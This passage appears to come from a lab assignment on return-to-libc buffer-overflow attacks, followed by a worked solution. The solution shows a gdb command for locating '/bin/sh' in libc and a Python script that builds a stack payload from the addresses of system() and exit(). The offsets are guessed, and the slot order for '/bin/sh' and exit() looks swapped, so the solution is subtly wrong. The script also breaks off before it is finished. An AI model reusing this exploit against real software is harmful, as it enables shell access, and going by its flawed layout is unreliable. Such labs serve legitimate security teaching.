 the address of this function in badfile. Run your attack again, report and explain your observations.

##### Attack variation 2: After your attack is successful, change the file name of retlib to a different name

making sure that the length of the new file name is different. For example, you can change it to newretlib.
Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does
not succeed, explain why.
##### solution
###### 1 Find the Address of `"/bin/sh"`
1. Locate the string `"/bin/sh"` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/sh"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `"/bin/sh"` is `0xf7f52a0b`.

---

###### Step 2: Determine the Offsets (X, Y, Z)
The offsets `X`, `Y`, and `Z` depend on the layout of the stack and the structure of the payload. To determine these offsets:

1. **Analyze the stack layout**:
   - Use `gdb` to set a breakpoint at the vulnerable function (e.g., `bof()`).
   - Run the program and inspect the stack to determine where the return address is located.

2. **Trial and Error**:
   - Start with a guess for `X`, `Y`, and `Z` based on the stack layout.
   - Adjust the offsets until the payload overwrites the return address correctly.

For this example, let's assume the following offsets:
- `X = 112`: The offset where the address of `"/bin/sh"` is placed.
- `Y = 108`: The offset where the address of `system()` is placed.
- `Z = 116`: The offset where the address of `exit()` is placed.

---

###### Step 3: Update the Exploit Code
Now that we have the addresses and offsets, we can update the exploit code:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()
exit_addr = 0xf7e04f80     # The address of exit()

# Offsets
X = 112
Y = 108
Z = 116

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')
```